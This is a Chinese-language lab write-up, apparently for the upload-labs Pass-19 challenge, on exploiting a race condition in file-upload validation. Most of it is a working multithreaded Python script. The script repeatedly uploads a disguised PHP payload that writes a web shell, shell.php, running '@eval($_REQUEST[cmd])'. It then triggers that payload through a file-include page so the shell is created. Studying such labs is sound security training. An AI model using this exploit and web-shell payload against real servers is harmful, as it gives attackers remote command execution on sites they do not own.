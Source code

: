 解题思路：

```php
因此也存在条件竞争的问题，不过这题对文件后缀名做了白名单判断，然后会一步一步检查文件大小、文件是否存在等等，因此可以通过不断上传图片马，由于条件竞争可能来不及重命名，从而上传成功。
```

Python脚本：

```python
import requests
import threading
import re
def upload():
    url = "http://192.168.0.129/Pass-19/index.php"
    file = {"upload_file": ("19.7z", "<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST[cmd])?>');", "image/jpeg")}
    data = {"submit": "上传"}
    while event.isSet():
        request = requests.post(url, data=data, files=file).text
        if "7z" in request:
            re_str = re.search("/(upload.*\.7z)",request)
            geturl = "http://192.168.0.129/include.php?file=./%s" % re_str.group(1)
            result = requests.get(geturl)
            if result.status_code == 200:
                print("upload success!")
                event.clear()
if __name__ == '__main__':
    event = threading.Event()
    event.set()
    for i in range(1,20):
        threading.Thread(target=upload).start()
```

![image-20220101184922595](image/文件上传漏洞/image-20220101184922595-16410341636031.png)

访问shell.php文件

![image-20220101185000537](image/文件上传漏洞/image-20220101185000537.png)
